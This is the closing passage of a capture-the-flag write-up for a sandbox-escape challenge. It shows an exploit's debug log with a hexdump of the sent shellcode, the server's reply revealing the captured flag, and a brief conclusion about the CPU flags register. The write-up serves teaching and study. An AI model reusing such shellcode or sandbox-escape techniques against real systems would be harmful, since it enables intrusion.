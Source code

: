 ```
    00000040  00 00 e8 18  00 00 00 48  c7 c7 01 00  00 00 48 c7  │····│···H│····│··H·│
    00000050  c6 01 00 00  00 48 89 e2  48 c7 c1 00  01 00 00 55  │····│·H··│H···│···U│
    00000060  c3 66 6c 61  67 00                                  │·fla│g·│
    00000066
[DEBUG] Sent 0x8 bytes:
    'deadbeef'
[DEBUG] Received 0x17 bytes:
    '[*] received 146 bytes\n'
[DEBUG] Received 0x110 bytes:
    00000000  5b 2a 5d 20  6c 65 74 27  73 20 67 6f  2e 2e 2e 0a  │[*] │let'│s go│...·│
    00000010  43 54 46 7b  48 65 6c 6c  30 5f 4e 34  43 6c 5f 49  │CTF{│Hell│0_N4│Cl_I│
    00000020  73 73 75 65  5f 35 31 21  7d 0a 00 00  00 00 00 00  │ssue│_51!│}···│····│
    00000030  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    00000110
[*] flag = "CTF{Hell0_N4Cl_Issue_51!}"
[*] Closed connection to sandbox-compat.ctfcompetition.com port 1337
```

## Conclusion

Overall very interesting challenge demonstrating one of the most obscure features of basic CPU functionality that we almost always take for granted: the `flags` register.
